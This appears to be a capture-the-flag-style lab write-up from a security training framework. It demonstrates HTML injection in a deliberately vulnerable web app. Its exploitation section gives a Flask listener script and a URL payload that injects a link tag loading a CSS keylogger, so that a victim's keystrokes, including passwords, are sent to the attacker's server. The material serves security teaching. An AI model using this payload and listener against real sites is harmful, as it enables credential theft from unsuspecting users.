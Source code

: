 # KBID xxx - HTML Injection

## Running the app

```
$ sudo docker pull blabla1337/html-injection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/html-injection
```

{% hint style="success" %}

{% endhint %}

Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrast Security](../../.gitbook/assets/contrast-security-logo.jpg)

## Reconnaissance

HTML injection is a vulnerability that allows an attacker to inject HTML code into a web application. In this lab, when we click the link on the home page to go to the user panel, we can see that the user's name is displayed in the URL. This is a good indication that we can inject HTML code into the URL and observe the result.

For example, if we modify the URL to `/user-panel/?name=<br>User</br>`, we can see that the text is bold and the developer tools display the HTML code that we injected.

![Changed URL](../../.gitbook/assets/html-injection-changed-url.png)

That means that we can indeed inject HTML, which means an attacker can edit the URL and send it to the victim.

## Exploitation

Now that we know we can inject HTML code into the URL, we can attempt to inject a CSS keylogger to see if we can obtain the user's password. To do this, we need to start a web server on our host machine. We can use Python to accomplish this.

```python
#!/usr/bin/env python3

from flask import Flask, render_template, json

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True


@app.route("/logger/<log>")
def logger(log):
    print("--------------------")
    print(log)
    print("--------------------")
    return json.dumps({'success': True}), 200, {'ContentType': 'application/json'}


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5555)
```

Now that our web server is running, we can inject the CSS keylogger into the URL as follows: `/user-panel/?name=User<link rel="stylesheet" href="<http://localhost:5555/static/css/keylogger.css>" />`.

When the user visits the user panel, the keylogger will be injected and their keystrokes will be sent to our web server.

![Server output](../../.gitbook/assets/html-injection-server.png)

> Note: This keylogger is limited; for a more comprehensive version, you will need to generate a CSS with more character combinations. Additionally, this works because it is a React application.

## Additional sources

[owasp.org | Testing for HTML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/03-Testing_for_HTML_Injection)
